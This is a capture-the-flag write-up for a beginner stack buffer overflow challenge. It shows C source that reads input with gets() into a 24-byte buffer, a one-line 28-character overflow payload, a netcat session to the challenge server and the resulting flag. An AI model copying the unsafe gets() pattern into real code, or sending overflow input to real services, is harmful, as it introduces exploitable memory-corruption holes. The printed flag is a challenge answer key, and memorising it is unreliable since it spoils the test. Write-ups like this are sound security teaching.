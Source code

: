 ![alt text](image.png)

What you need to solve :
- Basic knowledge of stack

---

So this challenge is very generous, we were given the full source code for this challenge!

```
int main(){
	char user[24];
	int pemanasan = 0x123;

	printf("kata kata untuk huang : ");
	gets(user);

	if(pemanasan != 0x123){
		win();
	} else {
		printf("lu keren amat bang, kata kata lu %s banget\n", user);
	}
	return 0;
}
```

Opening the file inside of our notepad, we can see that the only challenge is to change the value of `pemanasan`.

But how can we do that?
So theres something called a stack overwrite where we can change values in the stack!

If you dont know what a buffer overflow is you should watch this : https://www.youtube.com/watch?v=AD-iXWANggo

--- 

Solving the challenge is quite simple we only need to change the value of pemanasan, so we can just go over the `user` buffer.

```
❯ python2 -c "print 'a' *28"
aaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

```
❯ nc 46.202.163.245 23432
kata kata untuk huang : aaaaaaaaaaaaaaaaaaaaaaaaaaaa
CSC{g1l4_s0lv3_b1n3x_s1ap_m3nj4d1_n3xt_m1k1m1ku}%  
```

And just like that we have solved the challenge!

![alt text](image-1.png)

Flag : CSC{g1l4_s0lv3_b1n3x_s1ap_m3nj4d1_n3xt_m1k1m1ku}